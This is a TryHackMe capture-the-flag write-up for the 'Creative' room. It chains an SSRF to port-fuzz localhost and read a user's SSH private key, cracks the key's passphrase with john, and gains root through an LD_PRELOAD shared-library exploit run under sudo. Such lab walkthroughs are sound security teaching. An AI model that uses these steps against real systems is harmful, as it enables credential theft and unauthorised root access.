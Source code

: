 ```yaml
---
title: Creative - TryHackMe Write-Up
date: 2024-09-23
authors:
  - name: PrintN
    link: https://github.com/PrintN
    image: https://github.com/PrintN.png
tags:
  - CTF
  - TryHackMe
---
```

![Image 0](./0.webp)
### Introduction
Hello👋 Today we're going to take a look at [Creative](./https://tryhackme.com/r/room/creative) room on TryHackMe by sSaadakhtarr. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] creative.thm
```
We can now take a look at the website ```http://creative.thm```. It looks like a simple html website.
![Screenshot 1](./1.webp)

### Enumeration
We'll just start off with a simple Nmap scan. We see that the ports 22 and 80 are open.
![Screenshot 2](./2.webp)

Let's try to find some directories with Gobuster.
```bash
gobuster dir -u http://creative.thm -w /usr/share/wordlists/dirbuster/direcotry-list-lowercase-2.3-medium.txt
```
![Screenshot 3](./3.webp)
Hmmm nothing interesting there. Let's try subdomains.
```bash
gobuster vhost -u http://creative.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain creative.thm
```
![Screenshot 4](./4.webp)
We found something. Let's check it out. Add ```beta.creative.thm``` to your ```/etc/hosts```.
![Screenshot 5](./5.webp)

Ok, it explains what it does. Let's test it! I have created a test.txt and setup a python http server.
![Screenshot 7](./7.webp)
![Screenshot 6](./6.webp)
And it connects! We can see that it sends a GET request and on the website it displays the test.txt.
![Screenshot 8](./26.webp)

Let's try and see if we can connect to the localhost (127.0.0.1) of the website.
![Screenshot 8](./8.webp)
Which returns the content of the page.
![Screenshot 9](./9.webp)

Now let's try to see if there are any ports that are not accesible from the outside. We'll use ```ffuf``` for this. But we first need to make a ports.txt we can do that with ```seq```.
```bash
seq 65535 > ports.txt
```

```bash
ffuf -u http://beta.creative.thm/ -w ports.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://localhost:FUZZ" -fw 3
```
![Screenshot 10](./10.webp)
And we got a open port 1337!

### Getting Access
Now, with the ```http://localhost:1337/``` payload on ```http://beta.creative.thm```, we are able to get the contents of the web server.
![Screenshot 11](./11.webp)

![Screenshot 12](./12.webp)

Let's try going to ```/home``` and see what users we got.
![Screenshot 13](./13.webp)

We get a user called Saad. Let's go into Saad's home folder.
![Screenshot 14](./14.webp)

We can see that Saad has a .ssh folder.
![Screenshot 15](./15.webp)

Let's get Saad ```id_rsa```
![Screenshot 16](./16.webp)

To get the correct formatting of the ```id_rsa``` (to not get any errors when logging in with ssh), you'll have to view page source and then copy the contents of the ```id_rsa```.
![Screenshot 17](./17.webp)

After having copied the ```id_rsa``` we have to give 600 permission to the ```id_rsa```.

![Screenshot 18](./18.webp)

Looks like we need a passphrase. We can use ```john``` to get the password but we first have to convert the ```id_rsa``` to a .hash with ```ssh2john``` like so.
```bash 
ssh2john id_rsa > id_rsa.hash
```
![Screenshot 19](./19.webp)

```bash 
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Screenshot 20](./20.webp)

Nice! We got the passphrase, now we can ssh into Saad.

![Screenshot 21](./21.webp)

And we're able to get the first flag 😃

![Screenshot 22](./22.webp)

### Privilege Escalation
After looking a bit around I found Saad's password in the **.bash_history**.
![Screenshot 23](./23.webp)

We can then see what privileges we have with ```sudo -L```.
![Screenshot 24](./24.webp)
We see that Saad can run ```ping``` as root, but we can't do much with ```ping```. If we look closely on the ```sudo -L``` output, we can see that it contains:
```bash
env_keep+=LD_PRELOAD
```

The ```LD_PRELOAD``` environment variable is used to specify shared libraries that should be loaded before others when a program is run. This allows us to override functions in existing libraries. We can leverage this feature to inject malicious code into a process running with elevated privileges. 

```c
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	system("/bin/sh");
}
```
Next we'll have to compile it.
```bash
gcc -fPIC -shared -o escalate.so escalate.c -nostartfiles
```

Finally, we run the ```ping``` command with our ```LD_PRELOAD``` variable pointing to our malicious library
```bash
sudo LD_PRELOAD=/tmp/escalate.so /usr/bin/ping
```
![Screenshot 25](./25.webp)

And we get root and are able to get the second flag 🥳 This was a fun room, hope you learned something from this write-up. Happy Hacking!